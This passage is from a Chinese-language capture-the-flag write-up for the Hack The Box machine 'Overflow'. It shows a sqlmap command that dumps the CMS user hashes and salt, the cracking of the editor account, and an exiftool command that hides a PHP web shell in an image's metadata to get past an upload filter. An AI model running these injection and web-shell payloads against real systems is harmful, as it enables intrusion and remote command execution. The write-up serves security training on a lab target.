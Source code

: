 ![image](https://image.3001.net/images/20220413/1649835824_62567f3065b33fe0939ec.png!small)

对`cmsmsdb`数据表进行注入，发现`cms_users`和`cms_siteprefs`数据表。

```
sqlmap -u "http://overflow.htb/home/logs.php?name=admin" --cookie="auth=BAitGdYOupMjA3gl1aFoOwAAAAAAAAAA" -D cmsmsdb
```

![image.png](https://image.3001.net/images/20220413/1649835952_62567fb061dd0cffff97c.png!small)

对`cms_users`数据表的字段进行注入，发现了`admin`和`editor`账户的哈希值。

![image](https://image.3001.net/images/20220413/1649857174_6256d296a01616a32b11d.png!small)

紧接着需要对salt值进行注入，值存在于`cms_siteprefs`表中，得到盐值`6c2d17f37e226486`

![image](https://image.3001.net/images/20220413/1649857725_6256d4bd9807daa9f79e9.png!small)

得到salt值后，需要修改EDB之前的EXP对应的字段值。

![image.png](https://image.3001.net/images/20220413/1649858263_6256d6d7aee0dbdd9cb15.png!small)

结果admin账户的爆破失败，但是可以得到editor账户的明文值。

![image](https://image.3001.net/images/20220413/1649858312_6256d70849e8793246588.png!small)

### 文件上传漏洞

使用editor账号进行登录CMS，但是并没有发现能够利用成功的点。意外发现一个子域名`frvbuild-job.overflow.htb`

![image](https://image.3001.net/images/20220413/1649860919_6256e1371a2ff04b3e821.png!small)

添加进hosts文件后访问，发现又是一个表单，使用editor账户可以登录成功。

![image](https://image.3001.net/images/20220413/1649861048_6256e1b88afc1a69074b7.png!small)

在用户配置处存在一个上传点，当尝试上传PHP的webshell时，发现被过滤。

![image](https://image.3001.net/images/20220413/1649861095_6256e1e7b3e8cc8cfad92.png!small)

上传一张正常图片时，发现输出的是`exiftool`格式的内容。

![image](https://image.3001.net/images/20220413/1649861210_6256e25ad15b946f697c1.png!small)

尝试生成一个图片马并加以利用。

```
exiftool -DocumentName="<h1>test<br>




<?php if(isset(\$_REQUEST['cmd'])){echo '<pre>';\$cmd=(\$_REQUEST['cmd']);system(\$cmd);echo '<pre>'}__halt__compiler();?></h1>" webshell.jpg
```
